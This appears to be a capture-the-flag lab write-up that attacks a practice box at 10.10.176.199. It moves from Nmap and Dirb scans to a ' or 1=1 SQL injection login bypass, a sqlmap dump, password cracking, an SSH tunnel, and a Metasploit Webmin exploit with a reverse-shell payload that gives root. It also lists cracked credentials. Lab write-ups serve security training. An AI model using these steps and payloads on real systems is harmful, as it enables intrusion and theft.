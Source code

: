 # Enumerate
## Port and Services Scan
Ran Nmap and found TCP ports 22 and 80 open.
```bash
nmap -sV 10.10.176.199

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-10 06:44 MDT
Nmap scan report for 10.10.176.199
Host is up (0.21s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.44 seconds
```

## Web Browsing
Found a login page on TCP port 80.
```bash
firefox 10.10.176.199
```

## Web Crawling
Found nothing additional for TCP port 80 via Dirb.
```bash
dirb http://10.10.176.199:80 /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

# Exploit
## SQL Injection
### Manual SQL Injection
Manual SQL injection redirected me to portal.php.
```bash
# username: admin
# password: ' or 1=1 -- -
# result: nothing; admin does not exist

# username: 
# password: ' or 1=1 -- -
# result: redirected to portal.php
```

### Automated SQL Injection
Automated SQL injection allowed me to discover two database tables, a username, and their password hash. 

Steps Taken to Perform Automated SQL Injection:
* Configured browser to use Burp Proxy (127.0.0.1:8080).
* Submitted and intercepted the request below in preparation of using SQLMap and saved it to a text file. SQLMap requires such a file to know what parameters to stuff SQL queries into.
* Ran SQLmap (found two tables: one with usernames/passwords, another called post).

Intercepted Request
```bash
POST /portal.php HTTP/1.1
Host: 10.10.176.199
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://10.10.176.199
Connection: close
Referer: http://10.10.176.199/portal.php
Cookie: PHPSESSID=8geghe5096g3mk0fq6l6lcdv17
Upgrade-Insecure-Requests: 1

searchitem=test
```

SQLMap Command Sentence
```bash
sqlmap -r request.txt --dbms=mysql --dump
```

## Password Guessing
Used John the Ripper to guess the password of user "agent47" and then, used SSH to login.
```bash
# saved hash from SQL dump to a file called, 'hash.txt'
john hash.txt --wordlist=/usr/share/wordlist/rockyou.txt --format=RAW-SHA256
# used ssh to login afterwards
```

## Port Forwarding
After authenticating, I identified an additional port and viewed it by using an SSH tunnel to it. 
```bash
# on the victim side
ss -tulpn # identified additional TCP ports; i.e. port 10000

# on the attacker side
# send all traffic destined for me on port 10000 to port 10000 at 10.10.176.199
ssh -L 10000:localhost:10000 agent47@10.10.176.199
# firefox localhost:10000
# logged in user previously cracked credentials (agent47)
```

# Escalate
## Searching for Exploit
Found an exploit for the now exposed CMS web app on TCP port 10000 (using the commands below), but the exploit apparently requires Metasploit (yeah right). 
```bash
searchsploit webmin 1.580
searchsploit -m 47330 # copied the exploit to my current directory and viewed it with a text-editor (Vim)
vim 47330.rb # says it requires Metasploit...
```

## Metasploit
Ran Metasploit and then, used the discovered credentials & SSH tunnel to exploit the vulnerable web app. The specific vulnerability exploited in the web app "Webmin 1.580" (CVE 2012-2982) provided root access. 
```bash
msfconsole
search webmin 1.580
use 1 # exploit/unix/webapp/webmin_show_cgi_exec
options
set LHOST 127.0.0.1
set LPORT 5050
set RHOST 127.0.0.1
set LPORT 10000
set USERNAME agent47
set PASSWORD videogamer124
set SSL false # not sure if must be false or not
set PAYLOAD cmd/unix/reverse
run
```
